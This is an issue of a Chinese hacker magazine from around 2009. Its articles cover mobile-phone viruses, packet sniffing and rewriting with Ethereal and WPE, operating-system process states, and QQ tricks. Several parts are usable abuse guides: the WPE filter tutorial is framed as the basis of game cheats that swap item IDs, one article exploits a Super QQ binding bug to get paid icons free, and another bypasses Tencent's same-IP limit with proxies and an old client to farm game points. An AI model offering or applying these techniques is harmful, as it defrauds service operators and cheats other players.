大家都知道，手机已经集成了许多功能，个人认为，手机作为 MP6 都不过分，更多的新功能正在不断地集成，使得以后把手机作为移动终端的梦想不是不可能，而是什么时候可以实现的问题。目前，国内移动电话总数已经突破五亿户，而且手机上网已经在我国渐成风气，如何预防和清除手机病毒成为人们关注的问题。

随着我国第三代移动通信（3G）牌照正式发放，手机应用的爆炸式增长，手机所面临的安全威胁很快将超越个人电脑，成为个人信息安全的第一大隐患。隐私信息被盗、窃听、吸费等威胁攻击手段将给移动网络应用和个人信息安全带来极大威胁。虽然目前已发现的手机病毒达 400 余种，但随着 3G 手机的广泛使用，预计到 2009 年底，手机病毒将在短期内突破千种，手机病毒的年度增长数量将有可能超过过去 10 年的总和。

由此可见，3G 时代，病毒更甚，这也许就是社会高速发展、科技日益更新所带来的副作用吧。3G 的业务发展趋势，可以浓缩为宽带化、多媒体、实时性、交互式、个性化、移动性和安全性。不管人们在什么地方，什么时候，所要的各种媒介都可以得到。

> 3G 是 3rd Generation 的缩写，指第三代移动通信技术。相对于第一代模拟制式手机（1G）和第二代 GSM、TDMA 等数字手机（2G）而言，第三代手机是指将无线通信与互联网等多媒体通信结合的新一代移动通信系统。它能够处理图像、音乐、视频流等多媒体形式，提供包括网页浏览、电话会议、电子商务等多种信息服务。

3G 的大规模商用，使得有些不法分子想从中不劳而获，制作各种支持第 3 代移动通信的病毒及木马，窃取用户的敏感信息。手机中了病毒的情况与电脑差不多，常见的特征有：运行会比较慢，按键不灵，就算你不用来上网，它也会有流量，不断地向外界发送信息。有些病毒则把手机背景更改，或直接接收短信广告，或监听你打电话。当然，最严重的就是死机、无法启动、自动关闭手机这些了。

在互联网高速发展的今天，大家对于计算机病毒都有着普遍认识，经常上网的用户在保护信息安全方面已经做得比较完善。而 3G 实质是将传统的手机网络平台升级为一个高速互联网，未来难以逃离互联网遇到的困扰——无所不在的病毒以及为非作歹的黑客。欧洲 3G 用户已经遭遇类似的麻烦，私人信息被盗取，隐私内容被窥视，手机自动向外发送信息等等，而遭遇上述麻烦的肇始可能仅仅是接收了一条彩信。

当初，欧洲的运营商开始应用 3G 网络后，就发现手机网络安全与内容监管的问题，某通讯设备商曾经有过统计，利用其设备拦截的 MMS 病毒，每分钟超过 20 个！大家可以算算，1 天所遭遇的病毒袭击有多少次？1 天 = 24 小时，1 小时 = 60 分钟，1 分钟 20 个病毒，20×60×24=28800 个病毒！

多层安全的综合解决方案包括防火墙、虚拟专用网（VPN）、防病毒、入侵防御（IPS）、Web 内容过滤、反垃圾邮件、反间谍功能和流量管理等。未来中国的 3G 安全市场无疑也是一个非常庞大的市场，目前一些安全公司的主要业务即为移动运营商提供 GTP 病毒防火墙解决方案；为手机端用户提供产品的下载、安装等等。

另外，**清除手机病毒最好的方法就是删除带有病毒的短信或软件。如果发现手机已经感染病毒，应立即关机；死机了，则可取下电池，然后将 SIM 卡取出并插入另一型号的手机中（手机品牌最好不一样），将存于 SIM 卡中的可疑短信删除后，重新将卡插回原手机。如果仍然无法使用，则可以与手机服务商联系，进行无线杀毒。**

随着手机安全问题日益引起人们的重视，业内一致看好手机安全市场的前景。由于智能手机病毒肆虐，未来安全软件市场必将迅速膨胀成为一个诱人的“大蛋糕”，杀毒软件、入侵监测、防火墙等如今我们在电脑上熟悉的安全模块，未来将普遍出现在手机上。

看来以后的所谓“安全工程师”，也不仅仅只是局限于电脑等大型计算设备了，大家要记得：在享受 3G 带来的新鲜体验时，注意信息安全也是很重要的！

飘言语：  
数据包的专题就要连载结束了，想必大家对数据包方面的知识已经有了一个全面的了解了吧？这期，我们的全新专题“浅谈操作系统原理”闪亮登场了，这是一个理论知识比较多的专题，小菜们也许以为这些东西不重要，那可就大错特错了。工具和操作虽然重要，但要成为高手，就要了解它们是怎样工作的，了解原理之后你才有能力将方法进行拓展。操作系统的原理更是重中之重，或许等你学完这个专题之后，你会发现原先一直困扰你的问题已经迎刃而解了呢。

## 数据包也疯狂（四）

国贺正  西安电子科技大学

- 1. 了解 Ethereal 和 WPE
- 2. 学会怎样修改数据包

我们知道客户端与服务器的交互都是以数据包的形式进行的，你是否有想过有只黑手可以在幕后悄悄地对数据包动手脚呢？这期通过使用 WPE 过滤器的功能讲解外挂原理，没有出现编程相关的内容，小菜们打起精神，不会头疼的。

首先介绍两款嗅探器。作为“玩转数据包”的连载文章，之前却没有介绍过嗅探器，实在是说不过去。所以，今天首先就介绍一下大名鼎鼎的 Ethereal，经常看“黑手”的同学对此应该不会很陌生。**Ethereal 是当前流行的一种计算机网络调试和数据包嗅探软件，其基本类似于 tcpdump，但它还有设计完美的 GUI 和众多分类信息及过滤选项。用户通过 Ethereal，同时将网卡设为混合模式，可以查看到网络中发送的所有通信流量。**

我们按照如图 1 的指示来操作。点击最左边的“新建捕获”图标，接着选择网卡，并且勾选“Update list of packets in real time”，这样就不用每次点击“停止”，数据包才会更新在主窗口。最后点击“OK”，就开始抓包了。

因为这个时候数据包没有经过过滤，所以你会看到抓到的数据包飞速增加。怎样筛选出想要的数据包呢？答案是在 **“Filter” 处填入过滤规则**，比如填入“http”，如图 2，那么主窗口将只会出现 HTTP 协议的数据包。

Ethereal 支持多种过滤规则，像填入“ip.addr == 220.181.6.19”将只显示与 220.181.6.19 通信的报文等等。Ethereal 功能强大，想了解更多关于 Ethereal 的内容，请看光盘的 Ethereal 中文手册。


接着再一起来了解下另一款嗅探器：WPE。

WPE（Winsock Packet Editor），中文名称：网络封包编辑器。WPE 是一个封包截取软件，它能截取网络上的数据封包。利用这个工具，可以很容易地编写外挂工具。WPE 在数据包截获方面当然是不及 Ethereal，而且操作界面实在是不敢恭维，确实不易操作；但是它的“过滤器”和“发送数据包”功能非常强大，可以轻易地对数据包的内容进行指定的修改。

下面我们依然以实例的形式来说明 WPE 的用途。首先使用“多功能转换工具”把“黑客”“菊花”分割转换成 16 进制，即“BA DA BF CD”和“E6 C3 BB A8”。打开 WPE，按照图 3 的指示来操作：点击“目标程序”选择监听的进程，一般也就是游戏的进程，


# 菜鸟恶补

我这里选择的是腾讯的 TT 浏览器。然后点击那个三角形的图标，程序开始工作，这时我们在 TT 浏览器中打开《黑客手册》的主页 www.nohack.cn。等页面加载完成后，返回 WPE 界面按下红色的停止按钮，可以看到已经有几十个包产生，类似以前常用 WSE、WPE 以 16 进制和解码这两种形式显示 TT 浏览器通信的数据包。这个时候你会发现 Ethereal 的界面是何等的友好，WPE 操作和查找数据包太累人了。


接下来实践修改“过滤器”的操作。选中 WPE 界面左边中部的一个过滤器，双击它，如图4，弹出编辑过滤器窗口，如图5。按照图5上的提示，先选择“模式”为“高级”，勾选“发送”、“接收”、“接受到”，把“修改起始于”改成“查找现有连续的位置”，接着在“数据－搜索”一栏填入“黑客”的十六进制：BA DA BF CD，在“数据－修改”一栏从“000”处依次填写“烂花”16 进制：E6 C3 BB A8，“应用次数”填入100，当然次数自己控制。“过滤器名称”最好还是修改一下，因为这样在“过滤器”管理栏你可以快捷地找到相应的过滤器，这里我把名称改成“黑客”。


讲到这里同学们应该可以想像 WPE 的“过滤器”有什么功能了，是的，它可以自动拦截搜索某个进程通信的数据包，并且替换掉相应的内容后再发送或者接收。如图6，是我理解的通信过程，WPE 充当了一个类似中间人的数据篡改者。

接下来在刚才编辑完成的过滤器“黑客”前打上勾，并且按下“ON”使过滤器生效，这一步很重要，不要忘记了，如图7。


在 TT 浏览器中打开《黑客手册》主页 www.nohack.cn，果然，无辜的“黑客手册”被暴力地修改成了“烂花手册”，很好很强大，如图8。

在这个例子中，我们可以把“黑客”换成“烂花”，而在游戏中，同样也有可能实现相似的功能，这就是基于封包的网络游戏外挂原理了。外挂在拦截到封包之后，可以从这些数据中分析出一切可以被利用的数据，经过修改然后模拟游戏客户端或游戏服务器来重新组织一段数据对目标端进行欺骗。

举个例子，传奇中的人物与某个 NPC 对话时，他会把某件物品给你，这个物品在游戏中是有唯一 ID 的。于是很有想法的一些朋友便利用 WPE 滤镜的功能，经过抓包和细致的分析，制作了一个把这个 ID 换成另一件物品 ID 的过滤器，于是一把木剑变成屠龙刀的故事便有了。

当然，对于数据包的操作不仅仅只有替换那么简单，如果你会网络编程还可以更进一步地伪造，比如增加、减少数据包的内容，不用被动等待网游中事件发生引发通信，而主动地向服务器提交伪造的请求数据包等等，WPE 本身自带了主动数据提交这一非常实用的功能，以后会介绍到。

扯远了，回来继续……其它条件都不改变，在 TT 浏览器打开 www.baidu.com，并且搜索“黑客”，返回如图9，这个时候你也许会很沮丧，为什么这里的“黑客”没有被替换，难道百度对这东西免疫？为什么在官方网站可以，在这里却不行？

还是请出我强大的 Ethereal，分析抓取《黑客手册》官方网站、百度返回的数据包，过滤 HTTP 数据包，选中其中的一个数据包后，右键选择“Follow TCP Stream”，看看这两次请求和响应的完整过程，如图10、图11。


经过仔细比较，发现百度返回的数据包中消息头有这样不同的一条“Content-Type: gzip”。对！就是这个编码方式使我们的“过滤器”失效了，被 gzip 方式编码的“黑客”将不再是 BA DA BF CD，自然也就替换不了了。

比较这样两个过程并不是多余的，我就拿它们之间一个编码加密的差异来说明外挂编写的难易和可行性。gzip 的编码是可逆的，也有现成的开源代码可以很方便地在它与未编码状态之间转换，本例中，我们可以写一段解码 gzip 的函数先把截到的包解码，接着查找“黑客”替换成“好花”就可以成功实现了。

但是对于游戏，它的加密解密代码我们一般是没办法知晓的，即使抓到了数据包又能怎样呢？那只是一大堆没用的乱码而已。所以，你又会看到本文消极的一面，如果没有过硬的编程技术和加密解密技术，仅靠现有的 WPE 工具做“过滤器”式外挂，这只是一种很低级的利用方式，只能对付很少数加密很弱的游戏，而且，现在的游戏都自带检测 WPE 等封包修改工具。于是，准确地说，WPE 的外挂时代已经到了快要灭绝的末期。

但是，消极的同时也有积极的一面，如果你对外挂十分感兴趣，你可以努力去学习网络封包与修改技术、修炼逆向技术，一直深入下去，那么终有一天你会成为网络编程和破解界的大师级别人物，那个时候也许写个外挂就是小 case 了。而对于我们大多数人，是不会去玩网络游戏，也不会想成为外挂大师，那么，了解这些世上有这样的技术存在有什么用呢？你有什么奇怪的想法产生了呢？没有？想不出来？哎，接着买下期“黑手”吧，下期你应该会看到实例！

> 【本文所涉及的相关工具：WPE 汉化版、多功能转换工具、Ethereal 使用手册中文版已收录在光盘】

**编辑点评：**

不管怎么说，这部分还是跟编程有不少相关性，要想彻底玩转数据包是离不开编程这一步的。但编程也好，文中的这些工具也好，它们只是工具或方法，对数据的分析和构造才是灵魂。

## 浅谈操作系统原理（一）

**黑五岳 Jian 派 HackRain**

（在此感谢五岳的兄弟：弘智、斗南、辉辉、510）

从本文您可以学到：

认识操作系统和了解操作系统的相关知识

“操作系统原理”是一门偏理论的学科，但对于 hacker，学好“操作系统原理”有助于了解计算机工作方式，对于编程有着重要作用，如怎样让写出的程序充分利用计算机资源，做到最优化的运行。在此只能提纲挈领地对“操作系统原理”进行讲解，其它不再赘述。

当操作系统运行一个程序时，首先要将程序调入内存。虽然现在的内存空间已足够大，但面对并发性，即多任务的运行，也显得捉襟见肘，很难想像将整个程序全部调至内存运行是怎样一种情况，于是有了“作业”的概念。

操作系统将程序划分为若干个“作业”，这些“作业”是符合程序规则的自然结构，如选择结构（如编程中的 IF 语句）、循环结构（如 DO LOOP 语句）等。而自然结构并都不是“作业”，可以说“作业”是软件中功能较为完善的自然结构，且与程序相对独立。

### 一、概述

操作系统的基本功能：
- 启动计算机
- 控制计算机资源
- 为用户提供操作界面

如同我们熟知的 DOS、WINDOWS、LINUX 等操作系统，都具备这些功能。

- 共享性。运行于操作系统的各种程序能够共享计算机资源，实现操作系统对于全部资源的统一管理、调度和使用。
- 并发性。即让多个程序并发地使用 CPU，实现多任务的运行。

这样，在运行一个程序时，把程序分为许多“作业”，将其中的一个或几个“作业”调入内存，即可以使程序已经运行，于是内存空间便可在同一时间放入不同的作业，一次运行，以实现多程序的并发运行。

打个比方，就像学生学习多个学科，不可能一次性学习完整一科的全部课程，不会一年学语文，一年学数学。于是，将每个学科分为若干章节，各学科交互学习。在此，学科相当于程序，而章节相当于“作业”。“作业”是被存放于“输入井”中的，什么是“输入井”呢？这是操作系统启动计算机后，在硬盘上形成的一个特殊的临时区域，伴随操作系统的启动而存在。

## 二、操作系统，管理程序

#### 1、作业

#### 2、进程

通过对“作业”的了解，我们知道：程序化为“作业”，从硬盘调至“输入井”，再调至内存，最后才由 CPU 处理。“作业”实现了“输入井”级的并发，而为了提高这种并发度的级别，又提出了“进程”的概念，将并发级别提升至内存级，进一步使操作系统的效率大大提高，使其并发性更为优化，充分发挥 CPU 潜能。当“作业”调至内存时，操作系统立即为此作业产生进程，可以说，进程是活动的程序，且进程的活动空间仅在内存。由于进程具有生命周期，所以这种活动并不是永久的。程序好比整个自然界，可以看做是静态的，而进程就是自然界孕育出的生命个体，在自己的生物圈内活动。

这里还有两个概念需要了解：

- 进程是分配计算机资源的最小程序单位；
- 进程由操作系统为作业产生，由“父进程”产生“子进程”，之后是父子关系，并可以此向下继续产生新的“子进程”。

描述进程的控制块称作 PCB（PROCESS CONTROL BLOCK，进程控制块），如同作业通过 JCB 被操作系统控制，操作系统通过对 PCB 的控制和管理从而管理和控制进程，两者间同样共生共灭。

下面来看一下进程和 PCB 包含的内容：进程中包含一段程序代码，包含程序代码要处理的数据，同时也包含 PCB，可见两者间是包含关系。PCB 在不同操作系统中的内容不完全相同，大体包含：进程的标识信息；CPU 的状态信息；进程控制信息。具体不再说明，有兴趣的朋友可以去查阅资料。

前面说过，进程是活动的，这就表示进程在内存中表现为各种不同的状态，其基本状态有三种：就绪状态、运行状态、等待状态。当若干个进程共同处于内存中，会将所有进程对应的 PCB 形成链，进程需要等待一定的条件发生，才会转至就绪状态。顾名思义，这个等待过程就是进程的等待状态（注：后面要讲到的就绪和运行状态下，进程对应的 PCB 依旧重新排列成链，依次遵从 CPU 的调度）。

进程被运行的前提条件一旦具备，只等分配 CPU 资源时，该进程立即进入就绪状态，所有就绪进程形成 PCB 链；操作系统先将首链 PCB 对应的进程调至 CPU 运行。而当该进程要求分配 CPU 资源时，可能 CPU 的资源正在线被另一进程占用而未释放，此时，若就绪状态进程的优先级并不高于占用 CPU 的进程，且此进程（就绪状态）时间片未到，则此进程有可能从就绪状态转换为等待状态；若时间片已到，则此进程回到就绪队列末尾重新排队。

处于运行状态的进程，会有三种情况发生：

- 进程在规定时间片内运行结束；
- 进程在运行过程中需要做某个事件才能继续运行，那么此进程会暂时终止运行状态，转至等待状态；
- 进程由于某种原因（如进程较长或发生冲突），使其在规定时间片内未运行结束，则此进程之后归还 CPU，转至就绪状态，回到就绪状态的末尾等待下一次 CPU 资源的分配。

为了便于理解，来看如下的比喻：

如同你在食堂打饭，排队的人可以看成是 PCB，排成的队列就是 PCB 链。你手中等待盛饭的饭盒好比进程，食堂只有一个窗口供应饭菜，负责打饭的师傅如同 CPU，所有的饭菜（包括做菜的材料）就是所有 CPU 资源。打饭的师傅在询问你的需要后，将饭菜盛入你饭盒的过程，就是 CPU 通过 PCB 的引导，将 CPU 资源分配给进程的过程。

在此之前，增加一个环节：打饭前清洗餐具，准备饭卡等操作。另外增加一个前提条件：由于打饭者众多，每个人打饭的时间限定为 5 分钟，以前一人打饭结束到下一人打饭结束为一个时间段，各时间段间不断开。当人们处于准备环节时，还不具备打饭的条件，也就相当于进程处于等待状态。一切准备完毕，人们开始排队打饭了，即进入就绪状态。当轮到你打饭时，某人发现菜中有虫子，找打饭师傅理论，在 5 分钟内，你可能不想再等，扬长而去。当你次日再次打饭时，必须重新进入等待状态了。若你耐心地等待了 5 分钟，事情依旧未处理结束，按前提条件的规定，限定时间已到，你若想打到饭，就必须回到队尾重新排队了。当你开始打饭时，相当于进入运行状态。对照进程运行状态的三种情况，可能你会遇到以下状况：

- 在 5 分钟的规定时间内打饭结束；
- 当你付钱时发现饭卡损坏了，那么只好中止打饭，进入准备环节，去更换饭卡，即回到等待状态；
- 在规定时间内，你犹豫不决，始终未想好要吃什么，5 分钟结束后，只好到就餐队尾继续排队，等待下一次机会。

以下为进程状态和转换示意图，如图1。

而在实际运行中，进程有五种状态，分别是：
- 运行状态
- 活动就绪状态
- 挂起就绪状态
- 活动等待状态
- 挂起等待状态


而多出的两个“挂起状态”是为何产生的呢？

挂起，即处于“活动状态”的进程由于挂起命令而转至“挂起状态”。挂起状态下的进程不参与 CPU 的资源分配，挂起解除后，再重新回到活动状态（注：挂起“运行状态”解除挂起后，不会直接回到运行状态，而是要先进入活动就绪队列）。

以下为五种实际运行状态的示意图，如图2。

加入两种“挂起”状态是有它的实际意义的，总结有四点：


- 当系统出现故障或某些功能受到破坏，需要将系统中的相关进程挂起，以便故障排除后，再将挂起状态恢复；
- 为了检验程序运行状况，用户需要取得一些进程运行中的参数或中间结果，当取得的一些数据与预期结果不符，需要让系统挂起一些相关进程，以修改和调试程序；
- 系统在运行过多程序时，若资源不足会导致负荷过重，系统会挂起一些进程来缓解负荷；
- 计算机由于特定原因死机时，系统可能会主动挂起一些不必要的进程，使其处于挂起等待状态，去掉这些进程后，系统会恢复工作。

如同我们在 WINDOWS 系统下使用 Ctrl+Alt+Del 调出资源管理器，结束某些进程，以排除死机状态。其原理就是人为地结束掉处于“挂起等待”的进程，使系统恢复工作。由此看来，“操作系统原理”并非是纯理论的学科，此理论是可以用来指导实践的，其价值巨大。下一期将继续讲解第二章第 3 节，是有关线程、超线程及其它内容，敬请关注。

> 编辑点评：本文重点介绍了进程的相关知识，其实很多小菜都觉得，进程不就是程序吗？其实程序只是放在磁盘上的文件，而进程是这个文件加载进内存执行时产生的，进程是执行中的程序，它们是有区别的，且互相独立而不会互相影响（单指程序本身，不包含程序调用的数据）。其实了解进程只是开始，要更深入地学习，继续关注下期的杂志吧。

风总酷玩总评

这次的酷玩，首先带给大家一个免费亮图标的小洞洞玩玩。从一粒沙尘能看到一个世界，不知道聪明的你能从这个小洞里看到什么呢？这个 BUG 很简单，但有开发的潜力哦。然后呢，就是对之前 QQ 空间 5.0 技术的一个补充。新东西自然有很多新玩法，对于喜欢玩游戏的朋友，那《狂刷欢乐斗地主欢乐豆》你就不能错过了。而在沉默了好长一段时间之后，WebQQ 又进入我们的视线。看来 TX 也意识到未来互联网的发展趋势了。不管怎么说，按照以往 TX 产品的经验来看，WebQQ 不知道有多少洞洞等着你来发觉呢！愿带给大家的就是一些小技巧、小工具，可能在不经意间会帮你的大忙哦。

## 超级 QQ 最新 BUG —— 免费亮图标

看到题目你可能会怀疑：这是不是网上流传的超级 QQ BUG 啊？放心，那个 BUG 已经被封掉 N 久了，小菜我又不是火星人，又炒冷饭。这是才出现不久的超级 QQ 漏洞，就是为像我一样的图标一族研究所开发的，也就是可以免费点亮超级 QQ 图标了。

**操作条件：一块手机（可用的），两个 QQ 号码。**

首先为了文章能够讲清晰明了，给这两个 QQ 号起个名字，大号（没有绑定手机）起名为 A，小号（没有绑定手机）起名为 B。接着登录 B，对其进行绑定，基本步骤是：
- 填写信息
- 发送短信确认码（接下来弹出的窗口会提示），如图1
- 绑定成功


当我成功将 B 绑定后，它告诉我每个手机号码只能绑定一个 QQ 号，如图2。这个限制是什么时候出现的我至今无法考证了，不过在我绑定 A 的时候，却又成功了，这着实让我迷惑：TX 真是……（不说脏话）不过这不影响我们的操作，这可能是 TX 隐藏的另一个更大的漏洞哦。


接下来进入超级 QQ 的官网，对 B QQ 开通超级 QQ。请放心，不会让你花钱的，点击“网上开通”，接下来按操作进行就行了，如图3。


待到绑定、开通成功之后，B 就可以退下舞台了（删掉也罢，关掉也行）。再次强调：短时间内不会收费，大家可以像我一样月末开通也可以，如图4、图5。


这时才可以，用刚才的手机号再次对 A QQ 进行绑定，方法同上，接下来就等着“绑定成功”的提示了，如图6。


OK，主要任务已经完成，接下来看 A 的图标吧，吃惊了吗？嘴张多大了？哈哈！如图7。

接下来就是善后了，手机关闭刚才 B 开通的超级 QQ 业务，几个月之内是不会向你收费的。接下来查看两个 QQ 的信息，你是不是更加吃惊？嘴是不是张得更大了？如图8。

没错！A QQ 既亮着手机绑定，又亮着超级 QQ 的图标，而 B QQ 的这两个图标都熄灭了。A QQ 图标熄灭的时间应该就是漏洞被 TX 查到的时候吧，所以大家自己知道就好了，不要像我一样告诉大家哦。


- TX 规定一个手机只能绑定一个 QQ 号码，而我们却可以绑定两个，这有没有什么利用价值？
- 与超级 QQ 类似的还有短信超人，下面我就不说了……留给有心人吧！

## QQ 空间 5.0 技术大揭秘（续篇）

■新安山

本以为第一篇的空间揭秘就够透彻了，可没想到 5.0 空间这么 NX，特作此篇，以表……

### 1、正规途径刷空间人气的不正规方法

前几天一直用手机玩着 QQ，发现手机 Qzone 挺不错的，所以就转啊转，看到某牛人的日志一共就 4 篇，可回帖却过万？看那 QQ 也不是强人，怎么就那么牛？难道牛年是他本命年？后来发现有个“手机美文”的东西。

找到原因，那我也写吧，没想到门槛还挺高：500 字以上，48 小时之内。当时少侠我一阵憋气，500 字可要我命啊，手机版又不能手写。巧妙半日终得正果，下文用到电脑 WAP 浏览器，只做演示，想利用这种方法点亮手机腾讯网图标的朋友，本人不保证你看到本文时还可以用！！！

鉴于大家不经常用手机上网，我写得详细一点。首先打开“手机 QQ 空间”并登录自己的空间，如图1。

接下来“进入日志”——“写日志”，在这里随便填写一下就可以，因为重点在后面。这里只是创建一个“日志模块”，填写内容如图2。

接下来就是重点了，用电脑登录自己的 QQ 空间，找到你刚创建的“日志模块”，如图3。


接下来进入日志进行编辑就 OK 了，如图4。注意字数要在 500 字以上，我文笔不好就别问我写什么内容了，在这里喜欢原创的自己用键盘敲打就行了。如果你也像我一样懒，还是复制粘贴来得简单，呵呵。

发表完日志之后，转回 WAP，再次找到刚才的日志，点击“与更多的网友分享，推荐到——”，如图5。

强调一点就是一定要在建立日志模块后的 48 小时之内推荐，否则你是收不到如图6的信息的。

稍微分析一下原因，也许是 TX 没有将本来应该在电脑 QQ 空间中的编辑按钮屏蔽掉。据我判断，那些手机美文的作者一定也是利用此方法，因为他们的文章不是 1000 字就是 2000 字的，除非他们整天地闲着没事，拿着手机按呀按。但是我不能保证你的文章人家会采纳，只是给你个捷径而已。其实电脑 QQ 空间也有类似的推荐，只是我们菜菜如果不把“武器”配备好，以我们的文学功底与人家竞争，恐怕……


### 2、公告栏的大作用

你有没有惊异别人 QQ 空间的皮肤上带字？你认为那是皮肤上自带的还是抓的图片？错！那就是利用了被官方 29.99 的人的所谓“潜的透明公告栏”！透明公告栏在 Q 空间商城是找不到的，因此需要用到代码。

```javascript
LOOK
javascript:window.top.space_addItem(...)
LOVELETTER
javascript:window.top.space_addItem(...)
爱·骨蔻蕾酥
javascript:window.top.space_addItem(...)
```

至于使用代码的方法我不再做累述，有了代码之后，点击“装扮空间”——“装饰”——“公告栏”，进入编辑界面，如图7。接下来就是编辑了，选择一下字体与颜色，输入要加入的文字。因为公告栏的大小无法拉伸，所以不要急着提交，要先预……


### 3、繁琐代码不再记忆


图8　编辑公告栏

这时你的公告栏就出现了。当调节到合适的大小时再提交，如图8。


图9　公告栏效果

我不喜欢把文字放在比较靠下的地方，而是放到最上面空间名称的地方，这样效果更棒，如图9。


图10　自己的装扮情况

想必大家都记不住繁琐的空间代码吧？要不我们把空间代码转化为文字？你可能会说，自己是小菜，不懂代码。没关系，我也不懂，这里就以向好友索要空间免费装扮为例为大家演示一下。

QQ空间5.0在信息处新增了“好友动态”一栏，这里就可看到好友最近用的代码。我用我的小号看看我的空间情况，如图10。


图11　代码变为文字

接下来就是怎么转换成文字了。打开自己的空间，进入“空间装扮”——“当前装扮”，代码转换为文字了吧？自己再到空间商城利用关键字搜索就OK了，如图11。


图12　陌生人看不到自己的装扮

有的朋友在担心，别人会不会盗用自己的代码呢？这里不用担心，因为好友打开自己的“装扮详情”是不会显示的，如图12。

OK，全文结束！QQ空间5.0的确不错，看看我还能不能来个续篇，敬请等待，哈哈！

## 诡变思路之狂刷欢乐斗地主欢乐豆

图无缺 小龙

现在，使用双开工具进行刷豆的QQ欢乐斗地主玩家，一定对腾讯新设置的同一IP用户不让进入同一房间深感头疼吧？在尝试一台电脑2个号登录同一房间时，会弹出如图1的提示信息窗口。

有鉴于此，笔者想：是否可以通过下载老版本的游戏大厅来达到绕过这一限制的目的？于是，笔者到http://www.xdowns.com/soft/softdown.asp?softid=29837 下载了一个可以双开的无限制大厅（光盘中有收录）。

下载回这个大厅后（如果你之前已经安装了新版的QQ游戏大厅，则需要首先卸载掉它），然后解压运行，让这个大厅把注册信息都写入到注册表。接着搜索代理，大家可以用“代理超人”和“代理猎手”，也可以到“代理中国”直接找。


图1　弹出提示窗口


图2　设置代理

有了代理IP，就可以设置QQ登录时的IP地址了，设置如图2。填写完毕之后，单击“测试”按钮，如果提示“代理服务器工作正常”，如图3，那么就可以单击“登录”按钮进行QQ的登录了。


图3　测试代理

通过代理登录QQ后，然后通过QQ的游戏图标登录QQ游戏大厅，接着用双开工具开第二个游戏大厅，如图4。


此时，如果你的代理是正常可用的，并且没有被其他人拿来登录QQ大厅，那么此时你已经可以双开游戏大厅并且进入同一个房间了，如图5、图6。


进入同一个桌子之后，即可单击“开始”按钮进行游戏了，如图7。

笔者几分钟就把自己的一个号码从1400分刷到了1万多，哈哈。通过上面的介绍，相信读者朋友已经学会了如何通过老版游戏大厅实现对欢乐斗地主的双开刷分了，不过这里有些需要注意的地方，如果你使用代理还是提示该IP限制进入，可能是该代理是在线上免费网站上找的，这样很可能代理已被别的玩家使用了。他如果比你早进这个房间，那你就不能进了，因为你们用代理后显示的IP都是那个代理的IP。


## QQ酷玩之小菜玩转WEBQQ

想必大家对于“每天桌面式地登录QQ”有点厌倦了吧！虽然可以利用工具安装登录界面，再从网上下载些PL的皮肤换换新，但麻烦的操作对于我们小菜来说还是挺不爽的。所以今天，我给大家带来一种全新的QQ玩法——WEBQQ。

WEBQQ是腾讯最近推出的一个产品，无需下载安装QQ客户端即可在网页登录QQ，纯净绿色的特性深受广大酷族喜爱。还等什么，一起来吧！

打开WEBQQ主页：**web.qq.com**，在右侧我们可以看到登录框支持QQ号码、EMAIL账号隐身登录，如图1。


登录进去后就是WEBQQ主界面啦，如图2，主要有3个操作块：消息盒子、好友近况以及好友印象。这里只介绍消息盒子，其他功能就让大家去挖掘吧！


### 1. 查看消息

在图2中可以看到从群里发来的消息，我们可以双击群图标看消息，如图3。